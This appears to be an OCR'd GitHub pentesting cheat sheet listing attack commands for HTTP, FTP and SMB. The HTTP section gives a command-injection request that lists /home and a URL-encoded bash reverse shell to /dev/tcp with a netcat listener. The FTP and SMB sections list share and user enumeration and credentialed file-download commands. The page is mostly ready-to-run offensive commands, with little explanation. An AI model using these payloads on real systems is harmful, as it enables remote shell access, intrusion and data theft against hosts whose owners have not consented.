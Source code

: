 # HTTP

### URL Scapping
```
# %20 = Space
# %2f = /
curl http://example.com/api/cmd/ls%20%2fhome
```

### Reverse Shell Example
```
# Listen
nc -lvnp {LOCAL_PORT}

# Request with: bash -i >& /dev/tcp/{LOCAL_IP}/{LOCAL_PORT} 0>&1
http://example.com/api/cmd/bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F{LOCAL_IP}%2F{LOCAL_PORT}%200%3E%261
```

# FTP

```
# Access
nc {TARGET} 21

# Access
ftp {TARGET}

# Download file to current directory
ftp> ls
ftp> get {FILE}

# Download multiple files to current directory
ftp> mget {DIRECTORY}

# pwd
ftp> pwd
```

# SMB

```
# Enum4Linux
enum4linux -U -S {TARGET}

# Nmap Analysis
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse {TARGET}

# Disks list
smbmap -H {TARGET}

# Disks list with user auth
smbmap -u {USER} -p {PASSWORD} -H {TARGET}

# Connection
smbclient //{TARGET}/{DISK}

# Download file to current directory
smb: \> dir
smb: \> get {FILE}
```
